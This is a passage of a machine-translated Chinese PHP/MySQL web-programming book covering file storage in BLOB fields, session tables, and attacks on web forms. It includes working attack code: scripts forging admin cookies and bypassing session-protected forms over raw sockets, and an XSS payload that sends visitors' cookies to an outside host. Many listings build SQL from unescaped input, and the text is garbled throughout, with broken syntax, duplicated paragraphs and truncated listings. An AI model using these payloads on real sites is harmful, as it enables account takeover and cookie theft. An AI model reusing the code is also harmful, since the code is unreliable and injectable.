    </tr>";
    // ... 循环继续
$i = 0;
while ($product = mysql_fetch_array($prd))
{
    echo "<tr>
    <td><input type=checkbox name=product[] value=$product[id_product]></td>
    <td>$product[name]</td>
    <td>$product[price]</td>
    <td>$product[mark]</td>
    <td>$product[count]</td>
    </tr>";
    $i++;
}
echo "</table>";
echo "<br><input type=submit name=send value=Delete";
echo "</form>";
?>
// 如果全局变量 $_POST 数组不为空，
// 处理查询
if(!empty($_POST))
{
    // 为了删除项目，必须构建如下格式
    // 查询
    // DELETE FROM products WHERE id_product IN (4, 6, 8, ..., 20).
    // 这里，括号中的数字是
    // $_POST['product'][] 数组的元素。
    $temp = array();
    foreach($_POST['product'] as $id_product)
    {
        // 检查 id_product 是否为整数
        if(preg_match("/^\d+$/",$id_product))
        {
            $temp[] = $id_product;
        }
        // 构建并执行删除多个项目的
        // SQL 查询
        $query = "DELETE FROM products
WHERE id_product IN (". implode(",", $temp) . ")";
        if(mysql_query($query))
            echo "<HTML><HEAD>
<META HTTP-EQUIV='Refresh' content='0; URL=$_SERVER['PHP_SELF']'>
</HEAD></HTML>";
?>
```

### II.4.11. 在数据库中存储 MP3 文件

要在 MySQL 数据库中存储 MP3 文件，创建一个名为 `mp3` 的表，其一个字段为二进制大对象（BLOB）类型。BLOB 字段用于存储二进制数据，存储在其中的信息不会因应用编码而损坏。`mp3` 表由以下字段组成：

- `id_mp3` — 带有 `AUTO_INCREMENT` 属性的主键
- `name` — 文件
- `content` — MP3 文件的二进制内容

#### II.4.33. mp3 表

```sql
CREATE TABLE mp3 (
id_mp3 INT(11) NOT NULL auto_increment,
name tinytext NOT NULL,
content longblob NOT NULL,
PRIMARY KEY (id_mp3)
) TYPE = MyISAM;
```

> MP3通常很大，因此请确保所有服务器指令允许你处理它们。特别是 `php.ini` 文件中的 `post_max_size` 和 `upload_max_filesize` 指令分别允许通过 POST 方法和文件上传功能发送所需的数据量。此外，`my.ini` 文件中的 `max_allowed_packet` 指令必须设置得足以允许长长的 SQL 查询操作。

列表 II.4.34 显示了上传 MP3 文件到服务器并将其存储在数据库中的脚本。

### 第 II.4 章：MySQL 与 SQL 注入 221

#### 列表 II.4.34. 将 MP3 文件上传到数据库

```php
<form enctype='multipart/form-data' method='post'>
<input type="file" name="mp3"><br>
<input type="submit" value="Upload">
</form>
<?php
// 连接到数据库
require_once("config.php");
// HTML 表单处理器
if(!empty($_FILES)) {
    // 检查上传的文件是否为 MP3 格式
    if($_FILES['mp3']['type'] == 'audio/mpeg') {
        // 读取文件内容
        $content = file_get_contents($_FILES['mp3']['tmp_name']);
        // 删除临时目录中的文件
        unlink($_FILES['mp3']['tmp_name']);
        // 对文件二进制内容中的特殊字符进行转义
        $content = mysql_escape_string($content);
        // 构建查询将文件添加到表中
        $query = "INSERT INTO mp3 VALUES
(NULL, '" . $_FILES['mp3']['name'] . "', '" . $content . "')";
        if(mysql_query($query)) {
            // 自动刷新页面
            // 以清除 POST 数据
            echo "<HTML><HEAD>
            <META HTTP-EQUIV = 'Refresh' CONTENT = '0; URL = $SERVER['PHP_SELF']'
            </HEAD></HTML>";
        } else exit(mysql_error());
    }
}
// 列出文件
$query = "SELECT * FROM mp3";
$mp = mysql_query($query);
if (!$mp) exit(mysql_error());
// 如果至少有一条记录，
// 显示它
if (mysql_num_rows($mp) > 0)
{
    while ($mp3 = mysql_fetch_array($mp))
    {
        echo "<a href=get.php?id_mp3=$mp3[id_mp3]$mp3[name]</a><br>";
    }
}
?>
```

在 MP3 文件上传到服务器的临时目录后，以下 `if` 结构会检查该文件是否确实为 MP3 格式：

如果是，文件的内容将传输到 `$content` 变量，并使用 `unlink()` 函数删除临时文件。在将 MP3 文件的内容放入数据库之前，会通过 `mysql_escape_string()` 函数进行处理，以转义在查询通过网络传输时可能失真的特殊字符。

脚本末尾的代码显示了数据库中已有的 MP3 文件列表。每个列表项都是指向 `get.php` 文件的超链接。用于下载的记录主键通过 `id_mp3` 参数传递给该文件。`get.php` 文件的脚本可能如列表 II.4.35 所示。

#### 列表 II.4.35. 从数据库传输文件到用户

```php
<?php
// 连接到数据库
require_once("config.php");
// 检查传递了 id mp3 参数
// 以及它是否为整数，
// 从而防止 SQL 注入
if(!preg_match("^|\\d]+$", $_GET['id_mp3']))
{
    exit("Invalid format of the URL query!");
}
// 从数据库中提取 MP3 文件
$query = "SELECT * FROM mp3
WHERE id_mp3 = $_GET['id_mp3']";
$mp3 = mysql_query($query);
if (!$mp3) exit(mysql_error());
$file = mysql_fetch_array($mp3);
// 设置下载的文件名
header("Content-Disposition: attachment; filename = $file[name]");
// 发送文件下载的头部
header("Content-type: application/octet-stream");
// 将文件发送给用户
echo $file['content'];?>
?>
```

在正则表达式检查 GET `id_mp3` 参数为数字后，从 `mp3` 表中提取请求的 MP3 记录。接下来，将带有文件名和内容描述（二进制数据）的 HTTP头部发送到浏览器。除非发送这些头部，否则浏览器会将文件视为普通页面并显示它。在脚本的最后部分，`echo()` 函数发送二进制数据。

> `echo $file['content']` 语句之后不能有任何向浏览器窗口的输出，包括 `?>` 标签之后的空格和换行符，否则文件将损坏。

### II.4.12. 在数据库中保存图像

要在 MySQL 数据库中存储图像，请创建一个名为 `image` 的表，其中一个字段的类型为 `BLOB`。图像表由以下三个字段组成：

- `id_image` — 具有 `AUTO_INCREMENT` 属性的主键
- `name` — 文件名
- `content` — 图形文件的二进制内容

#### 列表 II.4.36. 图像表

```sql
CREATE TABLE image (
id_image INT(11) NOT NULL auto_increment,
name tinytext NOT NULL,
content longblob NOT NULL,
PRIMARY KEY (id_image)
) TYPE = MyISAM;
```

与 MP3 文件一样，图像文件通常；因此，确保所有服务器指令都允许你处理它们。有关特定指令的更多信息，请参见前面的章节。

列表 II.4.37 显示将图形文件上传到服务器并存储在数据库中的脚本。

#### 列表 II.4.37. 将图形文件上传到数据库


## 第 II.4 章：MySQL 与 SQL 注入

```php
<form enctype="multipart/form-data" method="post">
<input type="file" name="image"><br>
<input type="submit" value="Upload">
</form>
<?php
// 设置每页图像数量
$imgumber = 3;

// 连接到数据库
require_once("config.php");

// HTML 表单处理器
if(!empty($FILES)) {

    // 检查上传的文件是否为图像
    if(substr($FILES['image']['type'], 0, 5) == 'image') {

        // 读取文件内容
        $content = file_get_contents($FILES['image']['tmp_name']);
        // 删除临时目录中的文件
        unlink($_FILES['image']['tmp_name']);

        // 对文件二进制内容中的特殊字符进行转义
        $content = mysql_escape_string($content);

        // 构建查询将文件添加到表中
        $query = "INSERT INTO image VALUES
(NULL, '" . $_FILES['image']['name'] . "', '" . $content . "')";
        if(mysql_query($query)) {

            // 自动刷新页面
            // 以清除 POST 数据
            echo "<HTML><HEAD>
            <META HTTP-EQUIV = 'Refresh' CONTENT = '0; URL = $SERVER['PHP_SELF']'
            </HEAD></HTML>";
        } else exit(mysql_error());
    }
}
```

为了允许所有格式的图形文件，对 `$_FILES['image']['type']` 元素的前五个字符进行检查，如下：

```php
if (substr($_FILES['image']['type'], 0, 5) == 'image')
```

如果是图像，则是图形。脚本后续逻辑与 `II.4.34` 相同，不同之处图像下载表单下方显示的是图像而不是超链接。`` 标签的 `src` 属性传递了指向 `get.php` 文件的链接，内容见列表 `II.4.38`。

### 列表 II.4.38. 从数据库下载图像

```php
<?php
// 连接到数据库
require_once("config.php");

// 检查传递了 id_image 参数
// 以及它是否为整数，
// 从而防止 SQL 注入
if(!preg_match("^|\\d]+$", $_GET['id_image']))
{
    exit("Invalid format of the URL query!");
}
// 从数据库中提取图像文件
$query = "SELECT * FROM image
WHERE id_image = $_GET['id_image']";
$img = mysql_query($query);
if (!$img) exit(mysql_error());
$image = mysql_fetch_array($img);

// 设置下载的文件名
header("Content-Disposition: attachment; filename = $file[name]");
// 发送文件下载的头部
header("Content-type: image/*");
// 将文件发送给用户
echo $image['content'];
?>
```

在这里，在图形文件内容之前发送了 `Content-type: image/*` HTTP 头部。它告知浏览器后续是一个未知格式的图形文件。

### II.4.13. 从数据库转储下载数据

与 MP3 文件一样，如果 `echo $file['content']` 语句之后有任何到浏览器窗口的输出（包括 `?>` 标签之后的空格或换行符），图像文件将会损坏。

为了从数据库转储中执行多个 SQL 查询，会读取 `catalog.sql` 文件的内容，并使用正则表达式 `#;[\s]*\r\n#` 将其拆分为独立的查询（列表 `II.4.39`）。在执行得良好的 MySQL 数据库转储中，每个查询都以分号结束。

#### 列表 II.4.39. 从数据库转储下载数据

```php
<?php
// 连接到数据库
include "config.php";
// 包含 SQL 指令的文件
$filename = "catalog.sql";
// 打开指令文件
// 并将其读取缓冲区
$fp = fopen($filename, "r");
$contents = fread($fp, filesize($filename));
fclose($fp);
// 在分号边界处
// 拆分文件内容
$quer = preg_split("#;\\s]*\r\n#is", $contents);
// 执行 SQL 查询
foreach($quer as $query) {
    if(!$mysql_query($query)) exit(mysql_error());
}
?>
```

## 第 II.5 章：Session 和 Cookie

### II.5.1. 在线用户

HTTP 不允许用户建立会；因此，它不允许你追踪特定访问访问 Web 资源的时间间隔。唯一可以追踪的是客户端访问服务器资源的时间。之后，访问者可以花费几个小时阅读加载的页面——Web 服务器无法判断访问者何时停止使用加载资源。因此，如果访问者上次加载页面后已过去 20 分钟，则认为访问者离开了特定的 Web 资源。

为了记录访问访问资源页的时间，需要在 MySQL 数据库中创建一个会话表，用于存储用户名以及他们最后访问资源页的时间（列表 `II.5.1`）。

#### 列表 II.5.1. 会话表

```sql
CREATE TABLE session (
  id_session tinytext NOT NULL,
  putdate datetime NOT NULL default '0000-00-00 00:00:00',
  user tinytext NOT NULL
) TYPE = MyISAM;
```

该表由三个字段组成：

- `id_session` — Session 标识符
- `putdate` — 访问者最后访问网站页面的时间
- `user` — 用户

为了注册当前活跃的访问者，需要创建列表 `II.5.2` 所示的脚本。

#### 列表 II.5.2. 用户注册

```php
<?php
//  session
session_start();
// 获取唯一的 SID
$id_session = session_id();
// 建立数据库连接
include "config.php";
// 检查数据库是否存在此类 SID
$query = "SELECT * FROM session WHERE id_session = '$id_session'";
$ses = mysql_query($query);
if(!$ses) exit("<p>查询会话表出错</p>");
// 如果存在此编号的会话，
// 用户在线。有必要
// 刷新最后访问时间。
if (mysql_num_rows($ses))>0)
{
$query = "UPDATE session SET putdate = NOW(), user = '$_SESSION[user] ' WHERE id_session = '$id_session'";
mysql_query($query);
}
// 如果没有此类 SID，用户刚刚
// 登录。有必要在表中
// 为新用户输入记录。
else
{
$query = "INSERT INTO session
```

```php
VALUES('$id_session', NOW(), '$_SESSION[user]');
if(!mysql_query($query)) {
  echo $query."<br>";
  echo "<p>添加新用户出错</p>";
  exit();
}
// 假设在过去 20 分钟内没有访问资源的用户已经离开，并从数据库中
// 删除 他们的 id_session 值。
$query = "DELETE FROM session
WHERE putdate < NOW() - INTERVAL '20' MINUTE";
mysql_query($query);
?>
```

在脚本开头，使用 `session_id()` 函数获取当前的 `session_id`。如果会话表中缺少此类标识符，则向数据库中添加一条新记录，这相当于新访问者的到达。如果会话表中存在 SID，说明该访问者已经进入，并且有必要更新访问时间和用户名，以防访问者已以其他身份授权或已完成授权。在脚本末尾，自上次更新访问时间以来已超过 20 分钟的所有记录将从数据库中删除。因此，该脚本记录了访问者的离开。

在聊天应用程序中，通常做法是通知其他访问者特定用户已离开资源。为了这一目的，需要选择所有自上次更新以来已超过 20 分钟的记录，并向具有相应姓名的访问者输出消息：“某某离开了聊天”。

之前在列表 `II.55` 中提供的脚本必须使用 `include` 指令包含在网站所有频繁访问的页面中。这样做是为了可靠地追踪访问者在网站上的存在状态。

在你组织好会话表的动态更新后，输出当前活跃的访问者列表将不再困难，如列表 `II.5.3` 所示。

#### 列表 II.5.3. 输出当前在线访问者列表

```php
<?php
// 建立数据库连接
include "config.php";
// 输出会话表中有记录的所有访问者姓名
$query = "SELECT * FROM session";
$auth = mysql_query($query);
if(!$$auth) exit("<p>请求会话表出错</p>");
// 如果有人在，输出表格
if(mysql_num_rows($query) > 0) {
echo "<table>";
while($auth = mysql_fetch_array($auth)) {
    // 如果用户未注册，输出
    // 匿名字符串
    if(empty($auth['user'])) echo "<tr>Anonymous</td></tr>";
    else echo "<tr><td>" . $auth['user'] ."</td>></tr>";
}
echo "</table>";
}
?>
```

### II.5.2. 自定义会话

自定义会话机制可以通过注册 `session_set_save_handler()` 处理器来实现，该函数的语法如下：

```
session_set_save_handler(open, close, read, write, destroy, gc);
```

该函数接受六个字符串参数，这些是处理函数的名称。这些名称含义如下：

- `open` 在客户端代码应用 `session_start()` 函数初始化会话时执行的方法。建立数据库连接的代码应放在此处。
- `close` 终止操作的方法。终止数据库连接的代码应放在此处。
- `read` 从数据库中检索当前会话的数据。
- `write` 向数据库表中插入一条新记录，如果这是首次访问会话，则更新对应字符串的记录。
- `destroy` 抹毁会话的方法。放在此处的代码将删除指定当前会话的记录。
- `gc` 收集垃圾的方法。移除不再重要的旧记录。

数据将存储在会话表中，该表具有以下字段：

- `id_session` — 具有 `AUTO_INCREMENT` 属性表的主键
- `session` — 唯一的会话标识符
- `putdate` — 上次访问会话的日期
- `value` — 会话值（使用 `serialize()` 函数封装的数组）

#### 列表 II.5.5. session.php 文件

```php
<?php
// 开启会
function open($save_path, $session_name)
{
    // MySQL 服务器的网络地址
    $dblocation = "localhost";
    // 数据库名称
    $dbname = "boo";
    // 数据库用户
    $dbuser = "root";
    // 用户密码
    $dbpasswd = "";
    // 建立数据库连接
    $dbcnx = mysql_connect($dblocation, $dbuser, $dbpassword);
    if (!$dbcnx) exit(
        ("很遗憾，MySQL 服务器可用：".mysql_error());
    );
    // 选择数据库
    if (!$mysql_select_db($dbname, $dbcnx))
    exit("很遗憾，数据库不可：".mysql_error());

    return true;
}

function close()
{
    // 关闭数据库连接
    mysql_close();

    return true;
}

function read($id)
{
    // 读取 session 值
    $query = "SELECT * FROM session WHERE session = '$id'";
    $ses = mysql_query($query);
    if(!$ses) exit(mysql_error());
    $session = mysql_fetch_array($ses);
    // 返回存入 session 的
    return $session['value'];
}

function write($id, $sess_data)
{
    // 检查此名称的 session
    // 是否已注册
    $query = "SELECT COUNT(*) FROM session WHERE session = '$id'";
    $ses = mysql_query($query);
    if(!$ses) exit(mysql_error());
    if(mysql_result($ses, 0) > 0)
    {
        // 这是第一次尝试访问 session；因此；
        // 有必要在数据库中注册此 session
        $query = "INSERT INTO session
        VALUES (NULL, '$id', NOW(), '$sess_data')";
        $ses = mysql_query($query);
        if(!$ses) exit(mysql_error());
        return true;
    }
}

function destroy($id)
{
    // 删除标识符为 $id 的 session
    $query = "DELETE FROM session WHERE session = '$id'";
    if(!mysql_query($query)) exit(mysql_error());
    return true;
}

function gc($maxlifetime) {
  // “清理垃圾，
  // 或者删除旧记录
  $query = "DELETE FROM session"
  WHERE putdate < NOW() - INTERVAL 20 MINUTE;
  if(!mysql_query($query)) exit(mysql_error());
  return true;
}

session_set_save_handler("open",
"close",
"read",
"write",
"destroy",
"gc");
```

列表 `II.5.5` 中的文件必须被包含，而不是调用 `session_start()` 函数，如 `index.php` 文件所示（列表 `II.5.6`）。

#### 列表 II.5.6. 使用自定义 session 机制 (index.php)

```php
<?php
include "session.php";
$_SESSION['name'] = "cheops";
?>
<a href="index.php">跳转到另一个页面</a>
```

访问 `index.php` 文件后，session 表将包含一条记录，其显示可能如列表 `II.5.7` 所示。

#### 列表 II.5.7. session 表中的示例记录

```sql
INSERT INTO session VALUES (1,
  '2de41d571ff0486aeced069309723000',
  '2005-10-28 00:37:35',
  'name|s:6:"cheops";');
```

当页面被访问时，更新字段会不断刷新。通常情况下，使用这种机制与使用存储在文件中普通 session 机制没有区别。`index1.php` 文件（列表 `II.5.8`）演示了这一点。

#### 列表 II.5.8. index1.php 文件


```php
<?php
include "session.php";
echo "Hello, " .$_SESSION['name'] ."<br>";
?>
<a href="index.php">跳转到另一个页面</a>
```

`index1.php` 文件脚本产生的结果（见列表 II.5.1）呈在所示。


图 II.5.1. 使用自定义 session 机制显示欢迎字符串

本节介绍的 session 机制非常有用，因为它在任何时候都提供了访客者列表。此外，可以根据需要自定义 session 表。例如，可以为互联网协议 (IP) 地址、用户状态或由该用户处理的文档添加辅助字段。

## II.5.3. 使用 Session 保护 HTML 表单

如果文档正在使用中，可以拒绝尝试访问它的第二个用户进行访问请求，从而确保数据的一致性和完整性。换句话说，自定义 session 机制有很多应用领域。

当需要保护你网站上的服务免受第三方服务器的访问时，通常必须对 HTML 表单保护。为了实现这一点，有必要将 HTML 表单与 session 关联起来。在 `index.php` 文件中使用 `session_id()` 函数获取 SID 后，有必要将其放入需要保护的表单的隐藏表单字段中（列表 II.5.9）。

### 列表 II.5.9. 修正后的 index.php 文件版本

```php
<?php
// 初始化会
session_start();
?>
<table>
<form action=2.php method=post>
<input type=hidden name=session_id value='<?php session_id(); ?>'>
<tr>
<td>姓名：</td>
<td><input type="text" name=name></td>
</tr>
<tr>
<td>密码：</td>
<td><input type="password" name=pass></td>
</tr>
<tr>
<td>&nbsp;</td>
<td><input type="submit" value='进入'></</td>>
</tr>
</form>
</table>
```

此后，HTML 表单会检查从 HTML 表单中获取的 SID 是否与当前值匹配。

## 第 II.5 节：Sessions 和 Cookies

如果连接已建立，可以拒绝尝试访问它的第二个用户进行访问请求，从而确保数据的一致性和完整性。换句话说，自定义 session 机制有很多应用领域。

当需要保护你网站上的服务免受第三方服务器的访问时，通常必须对 HTML 表单保护。为了实现这一点，有必要将 HTML 表单与 session 关联起来。在 `index.php` 文件中使用 `session_id()` 函数获取 SID 后，有必要将其放入需要保护的表单的隐藏表单字段中（列表 II.5.9）。

## II.5.4. 确定 Cookie 状态

*不匹配*当前值。

## II.5.5. 伪造 Cookie

为了伪造 cookie，脚本发送以下 HTTP 请求头：

```
Cookie: name1 = value1; name2 = value2; ...
```

在这里，`name1`、`name2` 等是 cookie 名称；`value1`、`value2` 等是它们的值。

### 列表 II.5.12. 伪造 cookie 的脚本

```php
<?php
$hostname = "localhost";
$path = "/test/1.php";

// 建立通过 $hostname 参数的连接
$fp = fsockopen($hostname, 80, $errno, $errstr, 30);
// 检查连接是否成功建立
if (!$fp) echo $errstr.<br />\n";
else {
    // 构造传递给服务器的 HTTP头
    $headers = "GET $path HTTP/1.1\r\n";
    $headers .= "Host: $hostname\r\n";
    // 伪造 cookie
    $headers .= "Cookie: name=cheops; admin=1\r\n";
    $headers .= "Connection: Close\r\n\r\n";
    // 向服务器发送 HTTP 查询
    fwrite($fp, $headers);
    // 发送以下响应：while (!feof($fp)) {
        $line = fgets($fp, 1024);
    }
    fclose($fp);
    echo $line;
}
?>
```

# 242 第二部分：解决方案


图 II.5.2. 具有管理员权限的授权

现在，使用编辑器或管理员权限注册将不再有任何困难。只需将 cookie 中的 `admin` 属性替换为 `editor` 或 `user` 即可。此外，在列表 II.5.3 所示脚本的情况下，将对三种类型的用户进行授权。为此，只需发送以下 HTTP 请求头即可：

```
Cookie: name = cheops; admin = 1; editor = 1; user = 1\r\n
```

此类脚本的操作结果如图 II.5.3 所示。


图 II.5.3. 三种用户类型的同时授权

## II.5.6. 绕过受 Session 保护的 HTML 表单

要获取 cookie 并将其发送到服务器，必须使用套接字（sockets）。session cookie 由以下 `Set-Cookie` HTTP 请求头设置：

```
PHPSESSID = d8a29ca8e9eae318ac19e8d48831dea
expires = Fri, 28 Oct 2005 20:04:05 GMT; path=/
```

这里，`PHPSESSID` 是存储唯一 SID 的 session cookie 的名称，`expires` 代表 cookie 的有效期限，`path` 是 cookie 目录。使用 cookie 访问时，只需等待具有数据格式的字符串，并使用正则表达式提取 SID：`Set-Cookie: PHPSESSID=([\d\w]+); i`。接收 SID 后，可以使用 `POST` 方法访问 `handler.php` 文件的表单处理程序。


注意

通过套接字处理 `POST` 方法将在第 II.10 节中进行更详细介绍。

`POST` 方法将数据发送在请求头之后的区域，而 `GET` 方法将数据发送在查询字符串中。使用 `POST` 方法时传递多个变量的方式与使用 `GET` 方法相同：`name-value` 对使用 ampersand (`&`) 组合。由于 HTML 表单获取了 `name=admin, pass=admin, and session_id` 参数（其值是在第一次访问时通过套接字获取的），因此数据字符串可能如下：

```
name = admin &pass = admin&session_id = d8a29ca8e9eae318ac19e8d48831dea&\r\n\r
```

添加最后一个 ampersand 是防止终止换行符落入 `session_id` 值中。使用 `POST` 方法发送数据时，必须发送 `Content-Length` HTTP 请求头，以指定 HTTP Content-type 请求头中的字节数；`application/x-www-form-urlencoded` 指定数据传输类型。模拟 cookie 支持的脚本可能如列表 II.5.13 所示。

### 列表 II.5.13. 绕过受 session 保护的 HTML 表单

```php
<?php
$hostname = "localhost";
$path = "/test/index.php";

// 建立连接
// 其名称通过参数 $hostname 传递
$fp = fsockopen($hostname, 80, $errno, $errstr, 30);
// 检查连接是否成功建立
if (!$errno) echo "$errstr ($errno)<br />\n";
else
{
    // 构造要传递给
    // 服务器的 HTTP 头
    $headers = "GET $path HTTP/1.1\r\n";
    $headers = "Host: $hostname\r\n";
    $headers = "Connection: Close\r\n\n";
    // 向服务器发送 HTTP 查询
    fwrite($fp, $headers);
    // 接收响应
    while (!feof($fp))
    {
        $line = fgets($fp, 1024);
        // 搜索字符串
        // 如 Set-Cookie: PHPESSID = 6197e647566bdaa24da3ab42ae7604b2;
        // 此字符串设置 cookie
        preg_match("/Set-Cookie: PHPESSID = ([\d\w]+)/i", $line, $out);
        if (!empty($out[1]))
        {
            $SID = $out[1];
            break;
        }
    }
    fclose($fp);
}

$hostname = "localhost";
$path = "/test/handler.php";
$line = "";
```

```php
// 使用密码传递用户名 (admin),
// 其密码 (admin) 以及隐藏的 session_id ($SID) 字段
// 使用头部传递 PHPSESSID cookie
// 建立名称通过 hostname 参数
// 传递的连接

$fp = fsockopen($hostname, 80, $errno, $errstr, 30);
// 检查连接是否成功建立
if (!$fp) echo "$errstr <br />\n";
else {
    // POST 查询数据
    $data = "name=adminpass&admin_session_id=$SID&\r\n";
    // 构造 HTTP 头
    // 传递给服务器
    $headers[] = "POST path HTTP/1.1\r\n";
    $headers[] = "Host: $hostname\r\n";
    $headers[] = "Content-type: application/x-www-form-urlencoded\r\n";
    $headers[] = "Content-Length: ". strlen($data)."\r\n";
    // 伪造 cookie
    $headers[] = "Cookie: PHPSESSID=$SID\r\n";
    $headers[] = "Connection: Close\r\n";
    // 向服务器发送 HTTP 请求
    fwrite($fp, $headers.$data);
    // 接收后续响应：
    while (!feof($fp)) {
        $line = fgets($fp, 1024);
    }
    fclose($fp);
    echo $line;
}
?>
```

通过此脚本的操作，HTML 表单保护机制被绕过。列表 II.5.13 所示的操作结果如图 II.5.4 所示。

确保保护的下一步步骤是使用带有数字的图形图像，用户必须将数字输入到字段中。


# 第二部分：解决方案


图 II.5.4. 绕过使用 session 保护的 HTML 表单

## II.5.7. 跨站脚本攻击

跨站脚本攻击 (XSS) 基于由于未过滤用户输入的数据导致的漏洞。这允许 JavaScript 脚本运行。在图 II.5.5 中，该漏洞与列表 II.5.14 相关。

## II.5.8. 窃取 Cookies

现在，将任何访问者重定向到 http://www.softtime.ru/ 站点，只需使用以下名称注册：`user<script>location.href='http://www.softtime.ru';</script>`。为了防止这种漏洞，必须对客户端提供并在浏览器窗口中显示的任何数据使用 `htmlspecialchars()` 函数进行处理。

假设你已知授权过程中设置了两个 cookie，称为 `name` 和 `pass`。

### II.5.15. 设置 cookies

```php
<?php
setcookie("name", $name, time() + 3600*24);
setcookie("pass", $pass, time() + 3600*24);
?>
```

利用前节描述的漏洞，可以获取 cookie 并使用列表 II.5.16 所示的代码发送到攻击者站点。

### II.5.16. 窃取 cookies

```php
<script>
location.href='http://www.chackhost.ru/index.php?cookie='+escape(document.cookie);
</script>
```

因此，需要注册以下用户：

```
new_user<script>location.href='http://www.chackhost.ru/index.php?cookie='+escape(document.cookie);</script>
```

然后，在 http://www.chackhost.ru 站点（通常位于免费主机上）准备一个文件，用于存储通过 cookie 参数获取的所有登录名和密码。

## 第 II.6 节：用户代理（User Agents）与引用者（Referrers）


### II.6.1. 追踪来自外部站的跳转


用户从外部站的跳转由引用者（referrer）记录，可以通过全局数组元素 `$_SERVER['HTTP_REFERER']` 获取。例如，如果 `1.php` 页面包含一个指向 `2.php` 页面的链接 `<a href=2.php>Link</a>`，那么可以将列表 II.6.1 中的代码放入 `2.php` 文件中。

### 列表 II.6.1. 输出 `$_SERVER['HTTP_REFERER']` 的内容

```php
<?php
echo "You have navigated to the current page from ".$SERVER['HTTP_REFERER'];";
?>
```

你将获得图 II.6.1 所示的结果。

现在，只需创建一个脚本，将用户被重定向到当前页面的页面地址写入引用者表中。


### 列表 II.6.2. 创建引用者表

```sql
CREATE TABLE referer (
  id int(11) NOT NULL auto_increment,
  id_referrer tinytext NOT NULL,
  PRIMARY KEY (id_referrer)
) TYPE = MyISAM;
```

脚本可能如列表 II.6.3 所示。

### 列表 II.6.3. 指向当前页面的页面引用者的脚本

```php
<?php
// 如果引用者为空，则将其放入数据库
if(!empty($_SERVER['HTTP_REFERER'])) {
    // 设置数据库连接
    require_once("config.php");
    if (!get_magic_quotes_gpc()) {
        $_SERVER['HTTP_REFERER'] = 
            mysql_escape_string($_SERVER['HTTP_REFERER']);
    }
    // 添加新记录
    $query = "INSERT INTO referer VALUE (NULL,
                                         '$_SERVER['HTTP_REFERER']')";
    if(!mysql_query($query)) exit(mysql_error());
}
?>
```

第 II.6 节：用户代理与引用者 251

然而，列表 II.6.3 所示脚本除了注册第三方站点跳转外，还会注册同一站点页面之间的跳转。此类跳转可能很多，尤其是当站点包含许多页面时。无论如何，它都会超过来自第三方的跳转数量。为了排除站点内部页面之间的注册，必须添加一个检查，测试域名是否是当前站点的一部分（列表 II.6.4）。

### 列表 II.6.4. 排除当前站点页面之间的跳转

```php
<?php
// 如果引用者为空，则将其放入数据库
if(!empty($_SERVER['HTTP_REFERER']) &&
    strpos($_SERVER['HTTP_REFERER'], $_SERVER['SERVER_NAME']) == false)
{
    // 建立数据库连接
    require_once("config.php");
    if (!get_magic_quotes_gpc())
{
        $_SERVER['HTTP_REFERER'] = 
            mysql_escape_string($_SERVER['HTTP_REFERER']);
    }
    // 添加新记录
    $query = "INSERT INTO referer VALUE (NULL, $_SERVER['HTTP_REFERER'])";
    if(!mysql_query($query)) exit(mysql_error());
}
?>
```

可以通过访问 `$_SERVER['SERVER_NAME']` 获取站点的域名。

## II.6.2. 使用引用者保护 HTML 表单

为了防止 HTML 表单在第三方站点被填写，可以在 `handler.php` 文件的 HTML 表单中添加引用者检查（列表 II.6.5）。

### 列表 II.6.5. 使用引用者保护 HTML 表单

```php
<?php
// 创建当前服务器上 HTML 表单的路径
$html = "http://$_SERVER['SERVER_NAME']/index.php";
// 检查数据是否从当前服务器传递
if($_SERVER['HTTP_REFERER'] == $html)
{
    if($_POST['name'] == 'admin' && $_POST['pass'] == 'admin')
    {
        echo "<br><br>Message has been sent<br><br>";
        @mail("admin@somewhere.ru", "Statistics", "Message body");
    } else {
    echo "The form cannot be processed";
}
?>
```

浏览器或防火墙可能会隐藏引用者，因此这种保护对于合法用户可能会失效。另一方面，引用者很容易被伪造，因此使用 session 或图像的保护更好。


## II.6.3. 伪造引用者

要伪造引用者，需要发送如下 HTTP 头：

Referer: http://localhost/index.php

在这里，`http://localhost/index.php` 字符串必须替换为 HTML 表单的网络路径。然而，无法使用 `header()` 函数发送此 HTTP 头。你需要使用 sockets（列表 II.6.6）。

第 II.6 节：用户代理与引用者 253

### 列表 II.6.6. 使用 sockets 引用者

```php
<?php
$hostname = "localhost";
$path = "/test/handler.php";
$line = "";

// 使用 POST 方法
```

此脚本使用 POST 方法发送数据。与 GET 方法相比，POST 方法在头部之后的区域发送数据。传递多个参数与 GET 方法类似：使用连接符 `(&)` 字符连接 name = 值。考虑到 HTML 表单接受 name = admin、pass = admin 和 session_id 等参数，通过 sockets 首次访问获取的数据字符串可能如下：

```
name = admin & pass = admin\r\n
```

使用 POST 方法发送数据时，需要发送 Content-length HTTP 头（包含数据字符串中的字节数），并发送以下 Content-type HTTP 头：application/x-www-form-urlencoded。此头部指定了发送数据的方法。

使用 POST 方法的详细描述见第 II.10 节。

脚本运行的结果如图 II.6.2 所示。


## II.6.4. 搜索引擎关键词

利用列表 II.6.2 中的引用者表，可以使用列表 II.6.7 所示脚本检索关键词。

第 II.6 节：用户代理与引用者 255

### 列表 II.6.7. 搜索引擎关键词

```php
<?php
// 如果引用者为空
```

## II.6.5. 检查搜索引擎访问

搜索系统的每个机器人都会在用户代理字符串中记录其来源，可以通过 `$_SERVER['USER_AGENT']` 全局元素访问。

第二部分：解决方案

在处理用户代理之前，建议先收集统计。这可以通过将字符串积累到站点来实现。该字符串的典型内容为：Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)。


MSIE 6.0 子字符串的存在意味着访问者使用 Internet Explorer v6.0 查看页面。Windows NT 5.1 字符串指定客户端操作系统为 Windows XP。

如果站点页面被搜索引擎机器人访问，可以使用流行的搜索机器人返回的 HTTP_USER_AGENT 字符串确定它们属于哪个搜索引擎，如下：

- StackRler/2.0 或 StackRamb/2.0 (不兼容 MSIE) — Rambler
- Yandex/1.0011 (compatible; Win16; I) — Yandex
- Googlebot/2.1 (http://www.google.com/bot.html) — Google
- Aport

为了存储用户代理，将使用 useragent 表。其定义见列表 II.6.8。

### 列表 II.6.8. useragent 表

```sql
CREATE TABLE useragent (
  id_useragent int(11) NOT NULL auto_increment,
  name tintext NOT NULL,
  PRIMARY KEY (id_useragent)
) TYPE = MyISAM;
```

现在，通过在站点页面中插入列表 II.6.9 中的脚本，可以将用户代理信息放入表中。这可以通过 `include` 指令实现

### 列表 II.6.9. 注册访问站点的搜索机器人

```php
<?php
$useragent = $_SERVER['HTTP_USER_AGENT'];
// 发现搜索引擎，确定特定的机器人属于
$os = '';
